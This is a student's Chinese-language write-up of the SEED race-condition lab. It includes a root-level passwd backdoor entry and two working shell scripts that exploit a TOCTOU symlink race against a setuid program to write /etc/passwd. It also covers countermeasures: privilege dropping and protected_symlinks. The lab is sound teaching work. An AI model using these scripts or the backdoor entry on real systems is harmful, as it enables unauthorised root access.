 # Race Condition Vulnerability Lab

> 1120162015 李博

## Task0: Environment setup

首先进行如下环境的设置。

![task0-setup](../images/lab6-task0-setup.png)

## Task1: Choosing Our Target

尝试手动添加`test:U6aMy0wojraho:0:0:test:/root:/bin/bash`至`/etc/passwd`。

结果如下，可以看到用户test的密码为空即可登录，并且权限为root。

![task1-first-try](../images/lab6-task1-first-try.png)

## Task 2: Launching the Race Condition Attack

编写shell脚本如下。

exp_check.sh

```shell
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
	./vulp < input
	new=$($CHECK_FILE)
done
echo "STOP... Attack successfully!"
```

exp_symbolic.sh

```shell
#!/bin/bash

while :
do
	ln -sf /home/seed/Desktop/Lab06/input /tmp/XYZ
	
	ln -sf /etc/passwd /tmp/XYZ
done
```

执行结果如下

![task2-attack](../images/lab6-task2-attack.png)

尝试执行`su test`切换用户，结果如下，攻击成功。

![task2-su-test](../images/lab6-task2-result.png)

## Task 3: Countermeasure: Applying the Principle of Least Privilege

修改`vulp.c`为如下内容。

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
	char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
	uid_t real_uid = getuid();
	uid_t e_uid = geteuid();	

    /* get user input */
    scanf("%50s", buffer );
    setuid(real_uid);	   // 1. set real uid.
    if(!access(fn, W_OK)){

        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
    setuid(e_uid);         // 2. if need euid then set effective uid.
    return 0;
}
```

再次执行攻击脚本`exp_check.sh`和`exp_symbolic.sh`，结果如下。

![task3-result](../images/lab6-task3-result.png)

可以看到无法攻击成功，并且过程中还出现了`Segmentation fault`。

因为在程序进行读写过程中，其用户权限被降至`seed`，而该用户并没有写`/etc/passwd`的权限，故攻击失败。

## Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme

设置`sudo sysctl -w fs.protected_symlinks=1`后结果如下图，可以看到有大量的段错误出现。

![task4-result](../images/lab6-task4-result.png)

### (1) How does this protection scheme work?  

[原理](https://lore.kernel.org/patchwork/patch/311492/)

![task4-reason](../images/lab6-task4-reason.png)

该机制的原理在于check符号链接的uid与执行符号链接时的程序的uid是否匹配。

当程序运行时，由于setuid机制拥有的权限为root，而符号链接`/tmp/XYZ`的owner是seed，如下图。

两者不匹配，故出现错误。

![task4-xyz-uid](../images/lab6-task4-xyz-uid.png)

为验证上述想法，将程序设置为`sudo chmod 755 vulp`，非setuid，如下图。

![task4-prove](../images/lab6-task4-prove.png)

可以看到，当设置程序权限为`755`时，可以正常运行，而当程序权限为`4755`即setuid时，运行出现段错误。

### (2) What are the limitations of this scheme?

该机制从某种层面上限制了高权限用户对低权限文件的访问。

当拥有root权限的用户尝试通过符号链接访问并修改普通用户的文件时，会出错，从上一个例子可以看出。